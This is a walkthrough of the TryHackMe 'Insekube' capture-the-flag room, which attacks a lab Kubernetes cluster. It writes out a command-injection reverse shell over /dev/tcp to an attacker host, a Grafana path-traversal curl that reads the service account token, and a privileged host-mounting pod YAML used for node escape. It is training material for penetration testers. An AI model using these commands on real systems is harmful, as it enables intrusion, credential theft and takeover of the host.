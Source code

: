 # <a href="https://tryhackme.com/room/insekube"> Insekube </a>
### Exploiting Kubernetes by leveraging a Grafana LFI vulnerability

### Task 1

```
nmap -p- -Pn -sC -sT -A --reason -o nmap.scan [Target IP]
```
This will give us answer rot the first question.


### Task 2

On website we can perform a command injection attack by typing various command like ;whoami ;id ;ls
Author tells us that flag is in Envrometal variable so lets  type ;printenv
![image](https://user-images.githubusercontent.com/58551072/155545434-44c7d8b8-2811-4078-916e-8660a5ce6b6e.png)

We have to establish reverse shell with target machine in order to complete further task
There is no netcat or python avaliable on machine for us to use. 
We have to use Command injection attack again
```
127.0.0.1 && bash &>/dev/tcp/[Attacker IP]/[PORT] <&1
```

### Task 3

No answer needed

### Task 4

We have access to the machine. All we need to do is follow instructions. 
Flag is there, you can analyse it with online tools

### Task 5

Running env you will see there is a Grafana service running in the cluster.
We need to find what version of Grafana is used and search for vulnerabilities
Still in console that is connected to the target machine
```curl http://grafana:3000/login/```
Text is long but answer is easy to find ;)
 

### Task 6

I had trouble with running exploit but when googling around I have found solution
```
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
```
Now we have token
To get service account name we can use option "get serviceaccount" and token that we have found
To get next two answers all we need to do is fllow instruction. Flag 3 is in same place as flag 1

### Task 7

First we need to prepare .yaml file
```
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```


 
To get file into TARGET machine lets start ftp server on our machine
then simply curl http://ATTACKER IP:PORT/file.yaml
to get last flag use 
```find / -type f -name root.txt```
   
   
   

